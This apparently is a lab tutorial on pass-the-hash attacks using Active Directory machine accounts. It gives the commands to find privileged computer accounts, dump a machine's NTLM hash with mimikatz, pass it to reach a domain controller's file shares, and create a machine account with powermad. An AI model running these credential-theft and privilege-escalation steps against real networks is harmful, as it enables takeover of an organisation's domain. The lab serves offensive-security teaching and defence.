



# Pass the Hash with Machine$ Accounts

This lab looks at leveraging machine account NTLM password hashes or more specifically - how they can be used in pass the hash attacks to gain additional privileges, depending on which groups the machine is a member of \(ideally administrators/domain administrators\).

This labs is based on an assumption that you have gained local administrator privileges on a workstation \(machine\), let's call it `WS01$`. Since you have done your AD enumeration, you notice that the WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.

## Execution

Finding domain computers that are members of interesting groups:


```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```




Of course, the same can be observed by simply checking the Domain Admins net group:


```csharp
net group "domain admins" /domain
```



or administrators group \(not applicable to our lab, but showing as a sidenote\):


```csharp
net localgroup administrators /domain
```



In AD, the highlighted part can be seen here:


Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:


```csharp
sekurlsa::logonPasswords
```



Let's check that our current compromised user `ws01\mantvydas` \(local admin on ws01\) cannot access the domain controller DC01 just yet:



Since WS01$ machine is a member of `Domain Admins` and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:


```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```



Below shows how the machine's hash is passed which results in an elevated cmd.exe prompt. Using the elevated prompt enables us to access the domain controller as shown with `dir \\dc01\c$`:



## Remember

It's worth re-emphasizing that computer/machine accounts are essentially the same as user accounts and can be as dangerous if misconfigured.

Let's create a new machine account with powermad like so:

```csharp
New-MachineAccount -MachineAccount testmachine
```


Now, let's say someone added the testmachine$ account into Domain Admins:

```csharp
Get-NetGroupMember "domain admins" | select membern*
```


...if we somehow get hold of the testmachine$ password, we can escalate to a DA. We can check this by opening a new console and logging in as testmachine$ with `/netonly` flag. Note how initially the user spotless cannot list files on the DC01, but once `runas /user:testmachine$ /netonly powershell` is run and the password is provided, DC01 is no longer complaining and allows spotless listing its file system:


## References





